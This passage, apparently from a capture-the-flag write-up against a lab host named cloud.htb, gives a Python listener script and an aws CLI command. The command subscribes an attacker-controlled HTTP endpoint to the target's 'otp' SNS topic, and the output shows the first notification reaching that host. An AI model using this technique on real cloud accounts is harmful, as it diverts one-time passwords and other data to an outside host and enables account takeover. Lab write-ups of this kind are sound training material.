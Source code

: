 ```

    def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()
        self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))

    def do_POST(self):
        content_length = int(self.headers['Content-Length']) # <--- Gets the size of data
        post_data = self.rfile.read(content_length) # <--- Gets the data itself
        logging.info("POST request,\nPath: %s\nHeaders:\n%s\n\nBody:\n%s\n",
                str(self.path), str(self.headers), post_data.decode('utf-8'))

        self._set_response()
        self.wfile.write("POST request for {}".format(self.path).encode('utf-8'))

def run(server_class=HTTPServer, handler_class=S, port=4445):
    logging.basicConfig(level=logging.INFO)
    server_address = ('10.10.14.30', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting httpd...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping httpd...\n')

if __name__ == '__main__':
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

Now, let’s subscribe to the topic and add our Python webserver as recipient, with the http protocol:

```
$ aws --endpoint-url=http://cloud.htb sns subscribe --topic-arn arn:aws:sns:us-east-2:000000000000:otp --protocol http --notification-endpoint http://10.10.14.30:4444
{
    "SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:eb59226b-c1c4-44c1-8fd9-bbd06f504d4d"
}
```

We receive the callback to our endpoint with the token to confirm the subscription:

```
$ python test.py
INFO:root:Starting httpd...

INFO:root:POST request,
Path: /
Headers:
Host: 10.10.14.30:4445
User-Agent: Amazon Simple Notification Service Agent
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
x-amz-sns-message-type: SubscriptionConfirmation
x-amz-sns-topic-arn: arn:aws:sns:us-east-2:000000000000:otp
```